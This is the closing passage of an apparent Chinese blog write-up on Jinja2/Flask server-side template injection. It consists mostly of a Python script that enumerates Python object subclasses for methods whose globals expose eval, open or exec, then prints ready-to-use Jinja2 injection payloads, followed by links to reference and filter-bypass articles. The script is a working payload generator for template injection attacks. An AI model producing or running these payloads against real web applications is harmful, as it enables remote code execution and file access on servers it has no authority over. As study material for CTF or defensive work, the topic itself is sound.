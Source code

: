 [外链图片转存失败(img-sIJWgbk3-1567425348157)(https://raw.githubusercontent.com/shanke001/-/master/img/20190901220258.png)]


最后贴出大佬的脚本，可以找出所有能利用点，而且还可以直接转化成符合jinja2语法的payload串

```python
#!/usr/bin/python3
# coding=utf-8
# python 3.5
from flask import Flask
from jinja2 import Template
# Some of special names
searchList = ['__init__', "__new__", '__del__', '__repr__', '__str__', '__bytes__', '__format__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__hash__', '__bool__', '__getattr__', '__getattribute__', '__setattr__', '__dir__', '__delattr__', '__get__', '__set__', '__delete__', '__call__', "__instancecheck__", '__subclasscheck__', '__len__', '__length_hint__', '__missing__','__getitem__', '__setitem__', '__iter__','__delitem__', '__reversed__', '__contains__', '__add__', '__sub__','__mul__']
neededFunction = ['eval', 'open', 'exec']
pay = int(input("Payload?[1|0]"))
for index, i in enumerate({}.__class__.__base__.__subclasses__()):
    for attr in searchList:
        if hasattr(i, attr):
            if eval('str(i.'+attr+')[1:9]') == 'function':
                for goal in neededFunction:
                    if (eval('"'+goal+'" in i.'+attr+'.__globals__["__builtins__"].keys()')):
                        if pay != 1:
                            print(i.__name__,":", attr, goal)
                        else:
                            print("{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='" + i.__name__ + "' %}{{ c." + attr + ".__globals__['__builtins__']." + goal + "(\"[evil]\") }}{% endif %}{% endfor %}")
```

参考文章 ： https://www.cnblogs.com/hackxf/p/10480071.html

绕过 https://www.cnblogs.com/zaqzzz/p/10263396.html

